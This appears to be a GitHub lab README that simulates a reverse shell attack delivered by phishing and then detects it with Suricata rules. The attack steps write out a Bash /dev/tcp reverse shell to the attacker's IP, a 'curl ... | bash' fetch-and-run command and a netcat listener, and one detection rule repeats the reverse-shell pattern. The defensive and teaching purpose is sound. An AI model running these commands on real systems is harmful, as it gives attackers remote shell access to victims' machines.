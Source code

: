 
##  Objective

Simulate a **remote reverse shell attack** using a malicious Bash script and detect the activity using **Suricata** and **Wazuh** (configured on the victim machine).

---

## 🧪 Lab Setup

| Role     | Machine | IP Example         | Network Mode     |
|----------|---------|--------------------|------------------|
| Attacker | Kali    | `172.17.128.157`   | Bridged Adapter  |
| Victim   | Ubuntu  | `10.0.2.15`        | NAT              |

> 🔁 Different subnets simulate a remote attack scenario.

---

![Screenshot 2025-07-03 154733](https://github.com/user-attachments/assets/f6c9d61c-35ca-4374-a509-08248f474c39)

###  Step 1: Create Malicious Reverse Shell Script on Attacker

```bash
echo 'bash -i >& /dev/tcp/172.17.128.157/4444 0>&1' > rev.sh
chmod +x rev.sh
```

![image](https://github.com/user-attachments/assets/313a930c-5818-4495-9936-d449cde22c96)

### Step 2: Host the Script via HTTP Server

```bash
sudo python3 -m http.server 80
```
![image](https://github.com/user-attachments/assets/c8fe7502-8607-4d65-bd15-b13c638da700)

Script is now available at: `http://172.17.128.157/rev.sh`

### Step 3: Start Netcat Listener on Attacker

Take new terminal then type this command.

```bash
nc -lvnp 4444
```
![image](https://github.com/user-attachments/assets/b75347ea-762c-491d-93d4-810d75947942)

This waits for the victim's reverse connection.

### Step 4: Simulate Victim Executing the One-Liner (Phishing)

 **Command:**
```bash
curl http://172.17.128.157/rev.sh | bash
```

 **What This Command Does**

This one-liner does two things in a chain:

---

 **1.** `curl http://172.17.128.157/rev.sh`  
`curl` is used to download a file (`rev.sh`) from the attacker's machine (`172.17.128.157`) over HTTP (port 80).

`rev.sh` is a malicious Bash script that contains a reverse shell payload:

```bash
bash -i >& /dev/tcp/172.17.128.157/4444 0>&1
```

---

 **2.** `| bash`  
The `|` (pipe) sends the contents of that downloaded script directly into `bash` for execution.

That means the victim doesn’t save the file or inspect it. It’s blindly executed.

---

In a real-world phishing attack, this would happen when the user clicks a button like:

🔧 *"Click here to install update!"*

---

 **What Is Being Simulated?**

You are simulating a phishing or social engineering attack, where the victim:

- Clicks a fake update link  
- Or opens a terminal and pastes a command suggested by an attacker (e.g., from fake IT support)  
- Or runs an “installer” that connects to the attacker  

---
but for now, we're running it manually on the victim to simulate the victim being tricked.

![image](https://github.com/user-attachments/assets/8b927f3c-9a24-4655-bbf9-d8d5eaf6fe4c)


Now go check if the reverse shell was successful on the attacker machine.


![image](https://github.com/user-attachments/assets/c97221d3-4c21-4dfa-ab8a-80913463265a)

successful .

## Detect the reverse shell 

To detect this reverse shell activity, we need to add custom rules in Suricata-

```
sudo gedit /etc/suricata/rules/reverseshell.rules 
```

add this
 
```rule 
alert ip any any -> any 4444 (msg:"Possible Reverse Shell Connection to TCP 4444"; sid:1000003; rev:1; classtype:trojan-activity;)

```


```
sudo gedit /etc/suricata/rules/reverseshell1.rules 
```
add this
 
```rule 
alert tcp any any -> any any (msg:"Reverse Shell Payload Detected"; content:"bash -i >& /dev/tcp/"; sid:1000004; rev:1; classtype:trojan-activity;)

```

![image](https://github.com/user-attachments/assets/b347d7bb-3ca0-44e2-96bc-947a4fc6787e)

Test config:

```bash
sudo suricata -T -c /etc/suricata/suricata.yaml -v
```
Restart Suricata:

```bash
sudo systemctl restart suricata
```
Now  reverse shell will get detected.

Suricata Logs-

Check for alerts on the victim:

for live logs -
```bash
sudo tail -f /var/log/suricata/eve.json | jq 'select(.event_type=="alert")'
```
![image](https://github.com/user-attachments/assets/16c7f039-17f1-4387-b212-18476ff26768)


![image](https://github.com/user-attachments/assets/f2e2c051-027e-4020-b63b-cb130b1ff210)

For better understanding, it’s a good idea to check the fast.log

```bash
sudo tail -f /var/log/suricata/fast.log
```
![image](https://github.com/user-attachments/assets/084f84e1-5781-4c82-9a45-548ac98b973a)

Attack detected successfully.

## View Alerts in Wazuh Dashboard


